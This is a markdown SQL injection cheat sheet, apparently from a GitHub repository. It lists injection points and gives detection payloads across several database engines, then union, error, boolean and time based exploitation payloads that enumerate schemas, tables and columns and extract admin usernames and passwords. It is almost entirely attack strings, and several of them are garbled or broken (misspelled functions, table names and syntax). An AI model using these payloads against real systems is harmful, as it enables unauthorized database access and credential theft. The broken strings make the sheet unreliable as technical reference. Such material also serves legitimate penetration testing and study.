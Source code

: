 # SQL Injection

## Types of SQL Injection

* In Band SQL Injection
* Blind SQL Injection
* OutOfBand Injection

## SQL Injection Points

- **`Login Form`**
- **`Url Search Parameters`**
- **`Url id values`**
- **`Cookie Values`**
- **`XML encoded values like <storeId>**</storeId>`**
- **`Form Input Sections`**
- **`File Upload Sections`**

## Detecting SQL Injection

*  Error Based

        '
        "
        ;
        ;--
        ;#
        `
        ')
        ")
        `)
        '))
        "))
        `))

* Union Based

      ' union select 1,2,3,4;-- -
      ' order by 1,2,3,4;-- -
      ' union select null,null,null,null;-- -
* Boolean Based

      ' and true;-- -
      ' and false;-- -
      ' and 1=1;-- -
      ' and 1=2; -- -
      ' or 1=1; -- -
      ' or 1+2 = 3;-- - 
      ' and 'a' is not 'b
      ' or '1' = '1
* Time Based

  * MySQL
    
        '; select sleep 10;-- -
        ' and sllep 10; -- -
        ' && sleep 10; -- -
        ' | sleep 10; -- -
  * PostgreSQL
    
        ' || pg_sleep(10);-- -
        '; select pg_sleep(10);-- -
  * Oracle
        
        1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
        1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
  * MSSQL

        ' waitfor_delay '0.0.10
  * SQLite

        1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
        1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))

## Exploitation

#### In-Band SQL Injection

- Union Based Attack
```sql
' UNION SELECT 1,2,3,4;-- -
```
```sql
' union select 1,2,group_concat(schema_name),4 from information_schema.tables;-- -
```
```sql
' union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=<database_name>
```
```sql
' union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name = <the_table_name>
```

- Error Based Attacks
```sql
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT version()), '~|~'));-- -
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT @@version), '~|~'));-- -
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT database()), '~|~'));--
```
- Stack Based Attack
```sql
'; select group_concat(schema_name) from information_schem.tables;-- -
```

#### Boolean SQLInjection 

- Extracting database name
```sql
id  =  2'  and  length(database())  >  10;--
```
```sql
id  =  2'  and  ascii(substr(database(),1,1)) > 100;--
```
```sql
id  =  2'  and  ascii(substr(database(),2,1)) > 100;--
```
- Extracting table names
```sql
id  =  2'  and  (length(select  table_name  from  information_schema.tables  where  table_schema = '<name of database>' limit 0,1))  >  10;--
```
```sql
id  =  2'  and  ascii(substr(((select  table_name  from  information_schema.tables  where  table_schema = '<name of database>') limit 0,1),1,1)) > 100;--
```
```sql
id  =  2'  and  ascii(substr(((select  table_name  from  information_schema.tables  where  table_schema = '<name of database>') limit 2,1),1,1)) > 100;--
```
```sql
id  =  2'  and  ascii(substr(((select  column_name  from  information_schema.columns  where  (table_schema = '<name of database>'  and  table_name = <table name>) limit 0,1),1,1))  >  100;--
```
- Column name enumeration
```sql
id  =  2'  and  ascii(substr(((select  column_name  from  information_schema.columns  where  (table_schema = '<name of database>'  and  table_name = <table name>  and  column_name  !=  <one of the column>) limit 0,1),1,1)) > 100;--
```
- Data Extract
```sql
id  =  2' and  length((select  column_name_here  from  <table name>) limit 0,1)  >  10;--
```
```sql
id  =  2' and  ascii(substr(((select column_name_here  from  <table name>) limit 0,1),1,1)) > 100;--
```
- Admin password extract
```sql
id=1' and (select username from tabke_name_here where username = 'admin') = 'admin';-- -
id=1' and (select username from table_name_here where username = 'admin' and (length(password) > 10)) = 'admin';-- -
id=1' and (select username from table_name_here where username = 'admin' and (ascii(substr(select password from table_name_here where usrename = 'admin')1,1) > 100) = 'admin';-- -
```
#### Time Based Injection
- Functions to be used

        sleep(10)
        pg_sleep(10)
        waitfor delay '0.0.10'
        benchmark()
- General Syntax
```sql
hvdhjv’; select case 
when (1=1) then pg_sleep(10) 
else pg_sleep(0) 
end ;
```
- Table Name Enumeration
```sql
hvdhjv’; select case 
when ((ascii(substring(select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>10) 
then pg_sleep(10) 
else pg_sleep(0) 
end ;
```
- Column Name Enumeration
```sql
hvdhjv’; select case when ((ascii(substring(select column_name from information_schema.columns where table_name=<table_name> limit 1),1,1))>10) then pg_sleep(10) else pg_sleep(0) end ;
```
- Username and Password
```sql
hvdhjv’; select case when ((ascii(substring(select username from <table_name> limit 0,1),1,1))>10) then pg_sleep(10) else pg_sleep(0) end ;
```
- Admin password enumeration
```sql
xyz'|| (case when (substr((select password from users where username='administrator'),1,1) = 'a') then pg_sleep(10) else pg_sleep(0) end) || '
```
```sql
hvdhjv’; select when ((ascii(substring(select password from <table_name> where username='admin'),1,1))>100) then pg_sleep(10) else pg_sleep(0) end ;
```






























































































































































































































































































































































































































































































